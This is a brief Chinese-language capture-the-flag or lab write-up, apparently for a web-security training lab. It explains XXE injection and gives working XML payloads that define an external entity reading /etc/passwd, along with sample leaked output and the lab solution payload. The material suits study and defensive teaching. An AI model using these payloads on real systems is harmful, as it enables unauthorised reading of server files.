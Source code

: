 # 知识点
要执行从服务器文件系统检索任意文件的 XXE 注入攻击，您需要通过两种方式修改提交的 XML：

- 引入（或编辑）一个 DOCTYPE 元素，该元素定义包含文件路径的外部实体。
- 编辑应用程序响应中返回的 XML 中的数据值，以使用定义的外部实体。

例如，假设购物应用程序通过向服务器提交以下 XML 来检查产品的库存水平：
```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>381</productId></stockCheck>
```
该应用程序对 XXE 攻击没有特别的防御，因此您可以利用 XXE 漏洞通过提交以下 XXE 有效负载来检索 /etc/passwd 文件
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```
这个 XXE payload定义了一个外部实体 &xxe;其值是 /etc/passwd 文件的内容，并使用 productId 值中的实体。这会导致应用程序的响应包含文件的内容：
```xml
Invalid product ID: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
```
# 思路
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<stockCheck><productId>
&xxe;
</productId><storeId>1</storeId></stockCheck>
```
![image.png](./images/20231017_2356003980.png)
